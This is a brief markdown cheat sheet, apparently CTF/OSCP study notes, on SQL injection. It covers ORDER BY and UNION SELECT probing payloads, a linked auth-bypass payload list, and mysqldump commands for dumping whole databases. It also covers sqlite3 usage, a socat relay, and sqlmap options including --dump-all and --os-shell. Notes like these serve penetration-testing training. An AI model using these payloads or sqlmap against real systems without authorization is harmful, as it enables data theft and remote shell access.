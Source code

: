 # sqli basic

## Auth bypass

[iamkashz/ctf-scripts/auth-bypass-sqli.txt](https://github.com/iamkashz/ctf-scripts/blob/main/auth-bypass-sqli.txt)

## Tips

```bash
# when error; available columns = N-1
ORDER BY <N> --

# union [all] select 
UNION [ALL] SELECT 1,2,3,4 -- -
UNION [ALL] SELECT NULL,NULL,NULL,NULL -- -
```

## Using mysql-client

```bash
mysql -h <host-ip> [-P PORT]-u <username> -p [-e <SQL-QUERY-TO-RUN>]

mysqldump -u <user> -p <DB-name> > dump.mysql
mysqldump -u <user> -p --all-databases > dump.mysql
```

## sqlite3

```bash
# to invoke SQLite
sqlite3 <db.dump>

# to find tables
sqlite> .tables

# to check schema for table
sqlite> PRAGMA table_info(<table-name>);

# Ctrl+D to break out
```

## Start Mysql on kali

```bash
service mysql [status | start | stop]
/etc/mysql/mariadb.conf.d/50-server.cnf

CREATE USER 'kashz'@'localhost' IDENTIFIED BY 'kali1';
GRANT ALL ON *.* TO 'kashz'@'localhost';
flush privileges;

# listen on 3306 from tun0 IP and route to 3306 via localhost
$ socat TCP-LISTEN:3306,fork,bind=10.10.16.161 TCP:127.0.0.1:3306
```

## SQLMAP (DO NOT USE IN OSCP)

```bash
# method: POST
# capture request via burp > sql.txt

sqlmap -r <sql.txt> -p <paramter-to-check> <flag> [--proxy=http://127.0.0.1:808]

# --dbms=<mysql> or other.
# --dbs; -D <db>
# --tables; -T <table>
# --dump-all
# --os-shell
```

